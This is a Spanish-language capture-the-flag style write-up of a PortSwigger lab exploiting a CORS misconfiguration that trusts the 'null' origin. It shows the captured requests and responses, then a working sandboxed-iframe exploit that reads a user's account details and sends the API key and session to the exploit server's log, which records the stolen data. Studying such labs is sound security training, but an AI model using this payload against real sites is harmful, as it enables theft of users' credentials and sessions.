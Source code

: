 # Lab #2 - CORS vulnerability with trusted null origin

Primero iniciamos sesion y capturamos la siguiente peticion:

```bash
GET /accountDetails HTTP/2
Host: 0a8f00470434b5eb82a6608000940062.web-security-academy.net
Cookie: session=xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00470434b5eb82a6608000940062.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i


```

Y la respuesta de esta peticion es la siguiente:

```bash
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "tiJ50DYM9AoTgxTZppTOS0cjWn3w7fHG",
  "sessions": [
    "xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe"
  ]
}
```

Se puede apreciar Access-Control-Allow-Credentials: true y por lo anterior, enviamos la siguiente peticion:

```
GET /accountDetails HTTP/2
Host: 0a8f00470434b5eb82a6608000940062.web-security-academy.net
Cookie: session=xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe
Origin: null
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00470434b5eb82a6608000940062.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i


```

Esto responde asi:

```
HTTP/2 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "tiJ50DYM9AoTgxTZppTOS0cjWn3w7fHG",
  "sessions": [
    "xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe"
  ]
}
```

Luego de lo anterior, se procede a crear el exploit para almacenarlo en el exploit server:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a8f00470434b5eb82a6608000940062.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0aef005304e8b51e824a5f4601be0065.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Y luego de enviar el exploit a la victima se recibe lo siguiente:

{% code overflow="wrap" %}
```bash
200.122.242.138 2024-06-28 20:17:04 +0000 "GET /log?key=%7B%0A%20%20%22username%22%3A%20%22wiener%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22tiJ50DYM9AoTgxTZppTOS0cjWn3w7fHG%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22xiK3cUebAhOGCT8zA32s8KBvOIZcPLQe%22%0A%20%20%5D%0A%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36"
```
{% endcode %}
